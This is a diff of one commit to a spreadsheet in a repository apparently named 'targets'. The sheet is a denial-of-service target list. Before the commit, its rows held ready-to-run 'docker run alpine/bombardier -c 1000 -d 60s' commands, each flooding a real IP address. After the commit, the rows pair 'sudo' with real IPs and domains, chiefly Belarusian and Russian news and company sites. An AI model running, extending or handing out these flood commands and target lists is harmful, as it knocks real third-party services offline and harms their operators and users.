

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown; values as stored, in another font and other column widths than the file's, no borders; addresses are those after the commit; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
+row 1: sudo | 178.172.163.106 | www.bpc.by
+row 2: sudo | 178.124.138.31 | ont.by
+row 3: sudo | 104.21.50.131 | bg14.ru
+row 4: sudo | 172.67.163.61 | bg14.ru
-A5: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 104.21.52.57&& sleep 5;
+A5: sudo
-A6: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 172.67.195.242&& sleep 5;
+A6: sudo
-A7: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 172.67.73.86&& sleep 5;
+A7: sudo
-A8: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 104.26.3.67&& sleep 5;
+A8: sudo
-A9: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 104.26.2.67&& sleep 5;
+A9: sudo
-A10: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 172.67.3.106&& sleep 5;
+A10: sudo
-C10: 172.67.3.106
+C10: rusvesna.su
-A11: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 108.162.193.71&& sleep 5;
+A11: sudo
-C11:C12: cloudflare.com
+C11:C12: rusvesna.su
-A12: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 108.162.192.67&& sleep 5;
+A12: sudo
-A13: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 104.21.24.94&& sleep 5;
+A13: sudo
-C13: 104.21.24.94
+C13: rusvesna.su
-A14: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 104.20.73.219&& sleep 5;
+A14: sudo
-C14: 104.20.73.219
+C14: rusvesna.su
-A15: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 95.131.27.119&& sleep 5;
+A15: sudo
-C15: 95.131.27.119
+C15: rusvesna.su
-A16: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 64.190.63.111&& sleep 5;
+A16: sudo
-C16: 64.190.63.111
+C16: rusvesna.su
-A17: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 62.122.170.171&& sleep 5;
+A17: sudo
-C17: serverel.net
+C17: rusvesna.su
-A18: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 31.31.198.173&& sleep 5;
+A18: sudo
-C18: reg.ru
+C18: rusvesna.su
-A19: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 186.2.163.192&& sleep 5;
+A19: sudo
-C19:C20: ddos-guard.net
+C19:C20: anna-news.info
-A20: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 186.2.163.116&& sleep 5;
+A20: sudo
-A21: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 185.108.84.25&& sleep 5;
+A21: sudo
-C21: domenforum.net
+C21: anna-news.info
```
Also changed, not shown: 6 added rows, 1 removed row and 136 edited cells elsewhere in this sheet.
